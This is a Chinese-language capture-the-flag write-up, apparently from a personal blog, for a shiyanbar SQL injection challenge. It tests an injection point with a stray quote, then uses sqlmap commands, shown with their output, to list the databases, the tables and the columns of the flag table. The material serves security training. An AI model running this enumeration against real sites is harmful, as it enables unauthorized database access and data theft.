 ## 0x02简单的sql注入之3
[http://www.shiyanbar.com/ctf/1909](http://www.shiyanbar.com/ctf/1909)

感觉这道题最适合复习今天学习的关于注入的知识了。

### 1.查看注入点
	输入1，回显“hello”；
	输入1=1'， 报错，判定存在注入漏洞。
### 2.查看库
	E:\00我的工具\Sqlmap\SQLmap>sqlmap.py -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" --dbs
	结果：
	available databases [2]:
	[*] information_schema
	[*] web1
	
	##说明有两个数据库
### 3.查看当前数据库
	E:\00我的工具\Sqlmap\SQLmap>sqlmap.py -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" --current-db
	结果：
	current database:    'web1'

	##当前数据库为web1
### 4.查询当前数据库里的表
	E:\00我的工具\Sqlmap\SQLmap>sqlmap.py -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" --tables -D "web1"
	结果：
	Database: web1
	[2 tables]
	+-------+
	| flag  |
	| web_1 |
	+-------+

	##当前数据库里有flag和web_1两个表，当然是选择flag表继续~
### 5.查询列
	E:\00我的工具\Sqlmap\SQLmap>sqlmap.py -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" --columns -T "flag"
	结果:
	Database: web1
	Table: flag
	[2 columns]
	+--------+----------+
	| Column | Type     |
	+--------+----------+
	| flag   | char(30) |
	| id     | int(4)   |
	+--------+----------+	
